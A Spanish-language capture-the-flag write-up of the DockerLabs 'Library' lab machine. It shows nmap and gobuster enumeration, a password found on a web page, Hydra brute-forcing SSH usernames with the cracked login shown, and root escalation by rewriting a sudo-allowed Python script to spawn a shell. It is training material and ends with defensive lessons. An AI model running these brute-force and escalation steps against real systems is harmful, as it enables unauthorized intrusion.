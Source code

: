 
---

# 🧠 Informe de Pentesting – Máquina *Library* (DockerLabs)

* **Dificultad**: Fácil
* **IP de la máquina**: `172.17.0.3`
* **Objetivo**: Obtener acceso como usuario, escalar privilegios y conseguir acceso root
* **Herramientas utilizadas**: `nmap`, `gobuster`, `hydra`, `python`, `sudo`

---

## 🛠️ Preparación del entorno

Se descargó la máquina vulnerable desde la plataforma DockerLabs y se desplegó utilizando los siguientes comandos:

```bash
unzip library.zip
sudo bash auto_deploy.sh library.tar
```


![Despliegue de la máquina](Imágenes/2025-05-14_08-28.png)

![Ping a la máquina vulnerable](Imágenes/Capturas.png)

---

## 📡 Comprobación de conectividad

Para verificar que la máquina está activa en la red, hicimos un ping:

```bash
ping -c1 172.17.0.3
```

![Escaneo de puertos](Imágenes/Capturas_1.png)


---

## 🔍 Escaneo de puertos con Nmap

### 1. Enumeración de todos los puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Esto reveló dos puertos abiertos:

* **22** (SSH)
* **80** (HTTP)


![Escaneo de puertos](Imágenes/Capturas_2.png)

---

### 2. Detección de servicios y versiones:

```bash
nmap -sC -sV -p80,22 172.17.0.3 -oN target.txt
```


![Servicios detectados](Imágenes/Capturas_3.png)

---

## 🌐 Exploración del servicio web (HTTP)

Al visitar `http://172.17.0.3:80`, encontramos la página por defecto de **Apache2**, sin contenido personalizado.


![Página por defecto de Apache](Imágenes/Capturas_4.png)

---

## 🚪 Fuzzing de directorios con Gobuster

Comenzamos a buscar rutas ocultas usando la siguiente herramienta:

```bash
gobuster dir -u http://172.17.0.3/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Se encontraron tres directorios interesantes.


![Directorios descubiertos](Imágenes/Capturas_5.png)

---

## 🔑 Descubrimiento de posibles credenciales

En el directorio `index.php` encontramos una cadena alfanumérica:

```
JIFGHDS87GYDFIGD
```


![Cadena sospechosa encontrada](Imágenes/Capturas_6.png)

---

## 📁 Fuzzing profundo en subdirectorios

### Directorio `/javascript`

```bash
gobuster dir -u http://172.17.0.3/javascript \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```



---

### Directorio `/javascript/jquery`

```bash
gobuster dir -u http://172.17.0.3/javascript/jquery \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```


![Fuzzing jquery](/Imágenes/Capturas_7.png)

---
![Resultados adicionales](Imágenes/Capturas_8.png)

---

## 🔐 Ataque de fuerza bruta con Hydra (SSH)

Dado que teníamos un posible password (`JIFGHDS87GYDFIGD`), intentamos un ataque de fuerza bruta solo sobre el nombre de usuario, usando Hydra:

```bash
hydra -L /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
  -p JIFGHDS87GYDFIGD ssh://172.17.0.3 -t 4
```

🎯 **Resultado exitoso**:

```
[22][ssh] host: 172.17.0.3   login: carlos   password: JIFGHDS87GYDFIGD
```

![Credenciales encontradas](Imágenes/Capturas_9.png)

---

## 🧑‍💻 Acceso al sistema

Nos conectamos vía SSH con las credenciales obtenidas:

```bash
ssh carlos@172.17.0.3
```

---

## 📈 Escalada de privilegios

Una vez dentro del sistema, ejecutamos:

```bash
sudo -l
```

Esto reveló que el usuario `carlos` puede ejecutar el siguiente script con privilegios de superusuario:

```bash
(ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

![Permisos sudo sobre script.py](Imágenes/Capturas_10.png)

---

### 🐍 Explotación del script

El script original parecía hacer una copia de archivos. Lo editamos para obtener una shell con privilegios root:

```python
# script.py modificado
import os
os.system("/bin/sh")
```

Luego lo ejecutamos con sudo:

```bash
sudo /usr/bin/python3 /opt/script.py
```

Y así obtuvimos una shell como **root**. 🎉

![Shell como root](Imágenes/Capturas_11.png)

---

## ✅ Conclusión

* Se logró acceder a la máquina usando credenciales descubiertas mediante análisis web y fuerza bruta.
* Se identificó un vector claro de escalada de privilegios gracias a un script ejecutable con permisos sudo.
* Este ejercicio destaca la importancia de:

  * No dejar archivos sensibles o contraseñas visibles en páginas web.
  * Limitar los permisos sudo a scripts controlados.
  * Restringir los binarios interpretables como `python`.
